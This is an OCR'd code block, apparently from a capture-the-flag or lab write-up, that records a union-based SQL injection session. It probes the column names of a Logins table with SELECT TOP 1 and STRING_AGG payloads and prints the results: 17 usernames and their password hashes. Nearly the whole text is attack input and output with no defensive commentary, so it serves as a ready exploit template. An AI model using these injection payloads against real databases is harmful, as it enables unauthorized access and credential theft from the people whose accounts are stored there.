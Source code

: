 ```sql
# guess the column name; or try to extract 
Pleasesub > union (SELECT TOP 1 username FROM Logins)
sbauer
Pleasesub > union (SELECT TOP 1 email FROM Logins)
null
Pleasesub > union (SELECT TOP 1 emails FROM Logins)
null
Pleasesub > union (SELECT TOP 1 account FROM Logins)
null
Pleasesub > union (SELECT TOP 1 password FROM Logins)
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739

# extract the username and password; only support on column
Pleasesub > union (SELECT STRING_AGG(username,password,',') FROM Logins)
null
Pleasesub > union (SELECT STRING_AGG(username,',') FROM Logins)
sbauer,okent,ckane,kpage,shayna,james,cyork,rmartin,zac,jorden,alyx,ilee,nbourne,zpowers,aldom,minatotw,egre55
Pleasesub > union (SELECT STRING_AGG(password,',') FROM Logins)
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739,fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa,68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813,68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813,9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739,9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739,9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739,fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa,68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813,9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739,fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa,68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813,fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa,68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813,9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739,cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc,cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc
Pleasesub > union (SELECT username as Result FROM Logins)
```




